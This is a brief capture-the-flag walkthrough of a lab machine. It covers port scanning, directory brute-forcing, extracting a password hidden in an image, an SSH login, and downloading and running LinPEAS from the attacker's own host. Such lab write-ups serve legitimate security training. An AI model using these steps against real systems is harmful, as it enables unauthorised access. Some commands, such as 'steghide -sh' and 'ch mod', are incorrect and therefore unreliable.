 # Penetration Test Report - [Easy Peasy]
- Date: 21-07-2025

## Target Information
**Machine Name**: kral4
**Ip Address**: 10.10.99.131
**Platform**: Linux
**Categorie**: CTF

## Tools Used
- Nmap
- gobuster
- Steghide
- LinPEAS

---

## Step 1 | Nmap
`nmap -sC -sT -p- -oN espscan.txt 10.10.99.131`

- **Findings:**
Port 80/tcp http
Port 6498/tcp
Port 65524/tcp

## Step 2 | Gobuster
`gobuster dir -u http://10.10.99.131/`

- **Findings:**
/hidden
/robots.txt
/index.html

Again
`gobuster dir -u http://10.10.99.131/hidden`

- **Findings:**
/whatever
/index.html

## Step 3 | Go To Found Address
**Adress:** http://10.10.99.131/n0th1ng3ls3m4tt3r
- Download to image.

## Step 4 | Steghide
`steghide -sh binarycodepixabay.jpg`

Output: "created secret.txt"

- Read The .txt File:

`cat secret.txt`

- Output: "(binary text: iconvertedmypasswordtobinary)"

## Step 4 | Connect To SSH
```bash
ssh boring@10.10.99.131 -p 6498
password: iconvertedmypasswordtobinary
```
**Output:** "boring@kral4-PC: _"

## Step 5 | Privilege Escalation With LinPEAS
- CTRL+SHIFT+T -> `service apache2 start`
- ```bash
  boring@kral4-PC: wget <your IP>/linux/linpeas.sh
  boring@kral4-PC: ch mod +x linpeas.sh
  boring@kral4-PC: ./linpeas.sh
  ```
  - **Output:** 7 kernel vulnerabilities were detected

